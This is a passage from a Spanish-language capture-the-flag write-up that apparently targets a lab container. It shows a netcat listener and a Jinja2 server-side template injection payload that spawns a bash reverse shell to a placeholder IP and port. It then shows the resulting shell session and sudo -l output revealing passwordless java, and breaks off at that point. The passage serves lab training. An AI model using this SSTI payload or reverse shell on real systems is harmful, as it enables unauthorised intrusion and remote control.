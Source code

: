 asi que hacemos una rev shell de bash one liner y vemos si da resultado.

Inicio net cat:

```bash
❯ nc -lnvp 1234
listening on [any] 1234 ...
```

y pongo el siguiente código en la web:

```bash
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/TU_IP/TU_PUERTO 0>&1"').read() }}
```

![REVSHELLPINGUSSTI.png](assets/REVSHELLPINGUSSTI.png)

damos al save y obtenemos conexión:

```bash
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 50168
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
pinguinazo@d4b8f1fc7e37:~$ 

```

Enumeramos los permisos Sudo:

```bash
pinguinazo@d4b8f1fc7e37:~$ sudo -l
Matching Defaults entries for pinguinazo on d4b8f1fc7e37:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pinguinazo may run the following commands on d4b8f1fc7e37:
    (ALL) NOPASSWD: /usr/bin/java
pinguinazo@d4b8f1fc7e37:~$
```
